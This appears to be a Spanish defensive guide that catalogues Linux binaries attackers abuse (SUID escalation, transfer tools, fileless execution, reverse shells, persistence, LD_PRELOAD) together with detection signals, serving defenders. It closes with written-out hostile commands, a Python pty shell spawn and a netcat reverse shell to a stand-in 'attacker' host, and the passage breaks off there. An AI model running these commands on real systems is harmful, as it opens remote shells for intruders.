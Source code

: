 2. **Escalada de privilegios vía SUID/SGID**

   - Ejemplos: binarios con bit SUID mal configurados (p. ej. `vim`/`nvim` o `less` en sistemas antiguos, `find`/`cp` abuse en ciertos contextos).
   - Riesgo: ejecutar código como root si binario SUID permite editar archivos o lanzar shell.
   - Señales: ejecuciones de binarios SUID por cuentas no esperadas, cambios en bit SUID.

3. **Transferencia de archivos (ingress/egress)**

   - Ejemplos: `curl`, `wget`, `scp`, `nc`, `ftp`, `rsync`.
   - Riesgo: traer herramientas, exfiltrar datos.
   - Señales: conexiones HTTP/FTP/SSH salientes desde hosts inusuales, `wget` o `curl` ejecutados por procesos que no suelen descargar.

4. **Evasión / ejecución “fileless”**

   - Ejemplos: `perl`/`python -c '...'`, `bash -c`, `sh -c`, `xargs` con payload, `env` abusing.
   - Riesgo: ejecutar código en memoria sin escritura a disco; menos artefactos en FS.
   - Señales: procesos con líneas de comando largas y Base64, ausencia de fichero ejecutable correspondiente.

5. **Lectura/escritura de ficheros protegidos**

   - Ejemplos: `less`, `more`, `strings`, `tar` (extraer archivos), `gdb` (en ciertos entornos), `sudoedit` (si mal usado).
   - Riesgo: robar claves, tokens, credenciales.
   - Señales: lectura de ficheros sensibles (`/etc/shadow`, `/root`) por procesos no habituales.

6. **Networking / port forwarding / bind shells**

   - Ejemplos: `socat`, `nc`, `ssh` (reverse tunnels), `python -m http.server`.
   - Riesgo: pivot, túneles hacia C2.
   - Señales: listeners en puertos no usados, túneles ssh reversos con cuentas no esperadas, procesos `python`/`socat` corriendo con conexiones persistentes.

7. **Persistencia**

   - Ejemplos: ediciones de crontab (`crontab -e`), `systemctl --user` (unidades de user), modificación de scripts de init, `at`, `.bashrc` persistentes.
   - Riesgo: volver tras reinicio.
   - Señales: entradas de cron nuevas, units `systemd` sospechosas, cambios en archivos de perfil.

8. **Bypass de controles**

   - Ejemplos: `ld.so` preload tricks con `LD_PRELOAD`, `strace`/`ltrace` para investigar procesos.
   - Riesgo: evadir detección o manipular librerías cargadas.
   - Señales: variables de entorno sospechosas en servicios, procesos iniciados con LD_PRELOAD.

### Ejemplos concretos (enfoque defensivo — qué observar)

> Nota: no doy “pasos de explotación” sino patrones y señales para detección.

- **`python -c 'import pty; pty.spawn("/bin/sh")'`**

  - Señal defensiva: proceso `python` con argumentos `-c` que tiene un TTY, spawn a `/bin/sh`. Correlacionar con proceso padre (p. ej. `nginx` no debería lanzar `python` así).

- **`nc -e /bin/sh attacker:4444`** (netcat con ejecución)
